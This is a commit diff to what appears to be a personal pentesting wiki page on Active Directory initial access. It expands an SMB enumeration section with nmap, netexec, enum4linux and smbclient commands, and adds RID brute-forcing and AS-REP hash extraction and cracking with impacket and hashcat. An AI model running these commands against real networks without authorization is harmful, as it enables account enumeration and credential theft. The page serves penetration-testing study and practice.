

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-2-Initial-Access.md, in a window 1280 px wide and 1400 px high, scrolled down 506 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 003-2-Initial-Access.md

````diff
--- a/_wiki/003-2-Initial-Access.md
+++ b/_wiki/003-2-Initial-Access.md
@@ -19,13 +19,68 @@ keywords: Internals
   - [Spray](https://github.com/Greenwolf/Spray)
   - [Hashcat Wordlists - InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)
 
+## SMB Enumeration
+**Nmap**
+
+```
+nmap --script smb-vuln* -p 139,445 [ip]
+```
+
+**Netexec**
+```
+## List Shares - Null session
+netexec smb [host/ip] -u [user] -p [pass] --shares
+
+## List Shares - Guest session
+netexec smb [host/ip] -u guest -p '' --shares
+
+## Spider Module through files
+netexec smb -u [user] -p [pass] -M spider_plus
+```
+
+**Enum4linux**
+
+```
+enum4linux -a -u "" -p "" <DC IP>
+enum4linux -a -u "guest" -p "" <DC IP>
+```
+
+**Smbclient**
+```
+smbclient -N -L //[ip]
+smbclient //[ip]/[share name] -U [username] [password]
+```
+
+**Additional Resources**
+  - [SMB - Share Enumeration Cheat Sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
+  - [BIWasp/NetExec cheat sheet](https://github.com/BlWasp/NetExec-Cheatsheet)
+  - [SMB Enumeration cheat sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
+  - [CrackMapExec + NetExec cheat sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)
+
 ## Rid Brute via SMB
 **[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**
 
+*Credits to 0xdf located [here](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)*
+
+Every Windows object (including users and groups) has a security identifier or SID. The SID is a unique ID that contains a bunch of information about the domain configuration, and might look something like `S-1-5-21-1004336348-1177238915-682003330-512`.
+
+Within a domain or stand-alone host, the entire SID except the last number will be the same, and the last number is the relative identifier, or RID. These values fall in a predictable range, and thus, we can brute force the numbers across that range and get a list of users and groups.
+
 **Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share
 ```
-nxc smb 10.10.10.192 -u 'guest' -p '' --rid-brute > sid.txt
+## Using Netexec
+nxc smb [IP] -u 'guest' -p '' --rid-brute > sid.txt
 cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/[DOMAIN]\\//' > users.txt
+
+## Using rpcclient
+rpcclient [IP] -U 'guest%'
+lookupnames administrator
+lookupsids S-1-5-21-622327497-3269355298-2248959698-[RID_value]
+
+## Using Impacket
+lookupsid.py guest@[IP] -no-pass
+
+## ASrep Hashes via Username Enumeration
 GetNPUsers.py [DOMAIN]/ -usersfile users.txt -format hashcat
 hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
 ```
@@ -45,17 +100,6 @@ ldapsearch -H ldap://192.168.110.55 -x -D "web_svc@painters.htb" -W -b "dc=paint
 **Additional resources**
   - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)
 
-## SMB Enumeration
-**[SMB - Share Enumeration](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)**
-```
-nxc smb [IP] --shares
-```
-
-**Additional Resources**
-  - [BIWasp/NetExec cheat sheet](https://github.com/BlWasp/NetExec-Cheatsheet)
-  - [SMB Enumeration cheat sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
-  - [CrackMapExec + NetExec cheat sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)
-
 ## Web Application Vulnerabilities
 **[Bad PDF](https://github.com/deepzec/Bad-Pdf)**
 
````
